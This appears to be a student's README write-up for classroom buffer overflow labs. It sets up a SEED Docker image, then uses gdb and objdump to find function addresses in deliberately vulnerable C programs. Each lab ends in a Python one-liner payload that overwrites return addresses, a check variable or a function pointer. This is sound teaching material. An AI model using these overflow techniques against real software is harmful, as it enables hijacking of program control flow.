 """
@author: Nguyen Duc Tri 
@id: 22110082
"""
# BUFFER OVERFLOW ATTACK 
# BOF1.c
## I. Prepare for the lab environment

The Dockerfile is used to build a Docker image with all the required packages for Hands-On Assembly & Security labs.

### How to use:

1. Open Docker Desktop on your computer (host machine).

2. Open Terminal

   ```bash
   git clone https://github.com/quang-ute/myprojects
   ```
   and

   ```bash
   cd myprojects
   ```

4. Build the image `img4lab` that comprises all the required packages for labs by running the following command:

   ```bash
   docker build -t img4lab .
3. Run docker container from previously built image
   ```bash
   docker run -it --privileged -v $HOME/seclabs:/home/seed/seclabs img4lab
`Seclabs` is created inside student's home folder. <br>

4. On seed machine:
   
   ```bash
   cd seclabs
   ```
   then make a direction for a new file, named `bof`:

   ```bash
   mkdir bof
   ```
   and finally 

   ```bash
   cd bof
   ```


## II. Interpret the attack: 

![image](https://github.com/user-attachments/assets/6bb8d95d-f457-46a7-a910-be766ac038a8)

`For exploiting this, just filling up the buffer 200 bytes, EBP, and placing the memory address of secretFunc() into EIP. 
Instead of returning to its original position to continue the normal program flow, the EIP will now point to the secretFunc() and execute it.`

## III. Conducting the attack

1. Access to seclabs and bof
   
![image](https://github.com/user-attachments/assets/f2f34d52-070e-44f2-8685-b0c9bf3aa9bd)

2. Go to VSCode by
   
![image](https://github.com/user-attachments/assets/92550cbb-4fba-472e-ad5c-ca4d5b3383c2)

3. In VSCode terminal, run docker container from previously built image and change directory -> seclabs -> bof 

4. On seed machine

![image](https://github.com/user-attachments/assets/e5366856-381f-4238-a1ad-0be0ec61315c)

> **Note:** After typing the command, you might see a warning about the declaration of the function `get`. This is due to `get` was removed in C11. Nevermind to this warning, it will not affect the attack process. 

5. Load bof1.out in gdb

![image](https://github.com/user-attachments/assets/a3081e17-82db-438b-a825-d112f13ab5f3)

6. Once you load out bof1.out in gdb, use the disassemble command to display the assembly code for a <b>secretFunc()</b> memory region

![image](https://github.com/user-attachments/assets/c5ac8bac-3365-459e-b8db-70af5400a134)

7. The secretFunc() memory region is `0x0804846b`. Now, we must exit the gdb by typing `q`

8. Input 204 'a' characters followed by the address of secretFunc()

![image](https://github.com/user-attachments/assets/8af57690-4b4d-4ae1-bfa1-9126b8ac024b)

9. Remove the missing arguments line, add the variables a,b,1,2,... to the end of bof1.out

![image](https://github.com/user-attachments/assets/c75f57d2-fa2b-432a-b67b-7c771c1f6d6b)

# BOF2.c 
## I. Interpret the attack:

![image](https://github.com/user-attachments/assets/f6dbdf24-0a77-473c-ba52-81caa5b3aded)

`Since the buffer buf is only 40 bytes, but the program reads up to 45 bytes, if we enters more than 40 characters, the excess characters will overwrite the memory occupied by check.`

## II. Conducting the attack: 

Every initialized step has to be done like the attack on `bof1.c` file.

If you want to print out this statement `printf("\nYou are on the right way!\n");`
```bash
echo $(python -c "print('a'*40 + '\x01\x02\x03\x02')") | ./bof2.out
```

![image](https://github.com/user-attachments/assets/1fb903d5-94cd-47e6-b63c-4d464a09685e)

Else print out this statement `printf("Yeah! You win!\n");`
```bash
echo $(python -c "print('a'*40 + '\xef\xbe\xad\xde')") | ./bof2.out
```

![image](https://github.com/user-attachments/assets/4a925412-a9ee-40bf-9ab1-613e2c176069)

# BOF3.c 
## I. Interpret the attack:

![image](https://github.com/user-attachments/assets/3fd5198e-249c-439b-959e-31bf79ce73ba)

` The goal is to overwrite the func() pointer with the address of the shell() so that, when func() is called, it executes shell() instead of sup().`

## II. Conducting the attack: 

Every initialized step has to be done like the attack on `bof1.c` file.

In order not to load into `gdb bof3.out` and `disas shell` function to get a memory region of shell(), we can
```bash
objdump -d bof3.out | grep shell
```

So that the address of shell() will be displayed below:

![image](https://github.com/user-attachments/assets/5347273d-cc2d-49f7-a991-8bf9608349ae)

The attack: 
```bash
echo $(python -c "print('a'*128 + '\x5b\x84\x04\x08')") | ./bof3.out
```
![image](https://github.com/user-attachments/assets/1521539c-ebe3-4fb7-9973-03c0738778c8)

# CTF.c
## I. Interpret the attack: 

![image](https://github.com/user-attachments/assets/b991c129-95b3-4019-bb24-e836b75fad28)

The goal of the attack is to force the program to execute `myfunc()` with the correct values for `p` `(0x04081211)` and `q` `(0x44644262)`.

By exploiting buffer overflows to overwrite return addresses, we can access into the `myfunc()`. 

## II. Conducting the attack: 

1. At first, we need to know the address of `myfunc()`:
```bash
objdump -d ctf.out | grep myfunc
```

![image](https://github.com/user-attachments/assets/50a203d4-80dd-470b-8a96-a06939e05741)

2. `disas myfunc` to have a brief analysis:

![image](https://github.com/user-attachments/assets/1cc99368-6cbf-46a6-848a-f4ca1ee3d67e)

The `myfunc` absolutely does not exist in stack frame, so do these 2 integer variable `p` and `q`. 

Thus, the idea is to determine exactly the location of `p` and `q` in stack frame. And I will assign directly the value of them before executing the program. 

3. Determine the ebp's location.

The first thing that we need to know is where the ebp is located after finishing the execution of the `vuln()`. 

![image](https://github.com/user-attachments/assets/86c4ea05-39ad-4a30-85cd-02b297925f2d)


> **Note:** Let's have a look at leave and ret. 
> (1) is a location of `esp` before the `vuln()` executed. <br>
> (2) After the `vuln()` has been done executing, the `esp` will move to the place where `ebp` is standing. (move ebp, esp). <br>
> (3) The value of `ebp` in stack frame, will be copied to (the purple line), and it disappears later on. `esp`, therefore, will move down to as show in the figure. <br>
> (4) We will meet the `ret` (the program now navigates to `myfunc()`, which is `0x0804851b). The `esp` location is shown in the figure. 

The next thing is the location of `esp` when loading into `myfunc()` 

![image](https://github.com/user-attachments/assets/c870260a-85c6-4e37-8667-565d314ae041)

The location of of `p` and `q` is: ` 100 + 4 (blank) + \x1b\x85\x04\x08 (ret) + 4 (s) + \x11\x12\x08\x04 + \x62\x42\x64\x44 `  

4. Conducting an attack:
```bash
echo $(python -c "print('a'*104 + '\x1b\x85\x04\x08' + 'b'*4 + '\x11\x12\x08\x04' + '\x62\x42\x64\x44')")
```







